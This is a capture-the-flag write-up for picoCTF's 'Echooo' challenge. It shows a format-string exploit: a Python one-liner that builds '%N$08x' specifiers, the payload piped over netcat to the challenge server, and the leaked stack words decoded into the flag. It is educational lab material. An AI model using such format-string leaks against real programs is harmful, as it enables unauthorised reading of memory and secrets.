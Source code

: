 # Echooo

This program prints any input you give it. Can you leak the flag? Connect with `nc 2018shell.picoctf.com 46960`.


## Solution
It took me a while to come up with this solution because I was also learning about format string vulnerabilities. I started by using [radare2](https://github.com/radareorg/radare2) in debug mode. I set a breakpoint after the user input and than I printed the stack. It took a bit of trial and error, but eventually I discovered that the flag was stored `27 words (32-bit words)` away. This Medium blog post, [Binary Exploitation: Format String Vulnerabilities](https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be) helped me discover that I could get the **ith argument on the stack by using a special case format specifier**.


```
printf("%10$x"); 
-> will print the tenth element next on the stack
```


I used a python one-liner to write the `input.txt` file.

```
python -c 'print(" ".join(["%"+str(i)+"$08x" for i in range(27, 27+16)]))' > input.txt
```

*Note: I manually added newlines in the input file to account for the 63 character buffer size*

```
%27$08x %28$08x %29$08x %30$08x %31$08x %32$08x %33$08x
%34$08x %35$08x %36$08x %37$08x %38$08x %39$08x %40$08x
%41$08x %42$08x
```

Piping this input into netcat results in:

```
$ cat input.txt | nc -w1 2018shell.picoctf.com 46960                                                                
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> 6f636970 7b465443 6d526f66 735f7434 6e695274 615f7347 445f6552
> 65476e61 73753072 6237615f 32613463 000a7d64 080487ab 00000001
> ff836014 ff83601c
> $
```
 Using `grep`, `sed`, and `tr` I cleaned up the output so that it could be passed as input to `bytes_to_ascii.py`.


### bytes_to_ascii.py
I wrote this script to transform the output from the stack into readable ascii. This required breaking the `32-bit` words into bytes, reversing the order of the bytes to account for [endianness](https://en.wikipedia.org/wiki/Endianness), and converting the hex to ascii characters.


#### Exploit
Just run the `get_flag.sh` script.

```
$ ./get_flag.sh 
picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}
```
